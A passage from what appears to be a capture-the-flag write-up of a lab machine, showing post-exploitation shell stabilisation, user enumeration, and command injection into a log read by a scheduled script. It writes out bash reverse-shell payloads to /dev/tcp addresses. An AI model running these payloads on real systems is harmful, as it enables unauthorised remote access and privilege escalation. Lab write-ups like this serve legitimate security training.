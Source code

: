 Stabilize shell via python (the --version check at first is to check that this will even work)
```bash
python3 --version
Python 3.8.5

python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$
```

Some initial poking around on the machine, we see 2 users; kid and pwd.
```bash
kid@scriptkiddie:~/logs$ cat /etc/passwd | grep 'home'
cat /etc/passwd | grep 'home'
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
kid@scriptkiddie:~/logs$
```

Hold on to this for additional review:
```bash
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
kid@scriptkiddie:/home/pwn$
```

Explanation of what we're seeing. cat $log, is reading input from /home/kid/logs/hackers file (which our current user has access to). cut -d ' ' will count each space (' ') as the end of a field, and -f3- will output the 3rd field and anything after it (e.g. cutting out everything before the second space).


I see this example in home/kid/html/hackers (the method for initiating a reverse shell), I just need to get this into /home/kid/logs/hackers, so that scanlosers.sh does its 'cat $log' read, thus initiating the reverse shell, as user 'pwn'.
```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.16/4545 0>&1' #
```

Remember that thing about delimiters we looked at previously? If I don't pad this with 3 spaces, it's going to cut out the 'bin/bash -c 'bash' part of our command. So we've got some leading spaces here:
```bash
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/8990 0>&1' #" >> hackers
```
